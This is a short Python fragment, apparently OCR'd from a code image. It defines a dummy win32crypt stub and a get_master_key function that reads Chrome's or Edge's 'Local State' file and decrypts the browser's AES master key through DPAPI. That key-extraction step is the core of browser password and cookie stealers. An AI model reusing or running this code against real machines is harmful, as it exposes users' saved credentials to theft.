 # Dummy implementation of win32crypt for Windows DPAPI decryption
class DummyWin32Crypt:
    @staticmethod
    def CryptUnprotectData(encrypted, *args, **kwargs):
        # Dummy decryption: returns the encrypted data unchanged.
        return (None, encrypted)

# Try to import win32crypt (if on Windows), otherwise use dummy implementation
try:
    # In an offline environment, we assume win32crypt is not available.
    raise ImportError
except ImportError:
    win32crypt = DummyWin32Crypt()

###########################
# Advanced Decryption Helpers
###########################

def get_master_key(browser):
    """
    Retrieves the AES master key from the browser's Local State file.
    Supports Chrome and Edge.
    """
    if browser.lower() == "chrome":
        local_state_path = os.path.join(os.environ.get("LOCALAPPDATA", ""), "Google", "Chrome", "User Data", "Local State")
    elif browser.lower() == "edge":
        local_state_path = os.path.join(os.environ.get("LOCALAPPDATA", ""), "Microsoft", "Edge", "User Data", "Local State")
    else:
        return None
    try:
        with open(local_state_path, "r", encoding="utf-8") as f:
            local_state = json.load(f)
        encrypted_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        # Remove 'DPAPI' prefix
        encrypted_key = encrypted_key[5:]
        master_key = win32crypt.CryptUnprotectData(encrypted_key, None, None, None, 0)[1]
        return master_key
    except Exception:
        return None
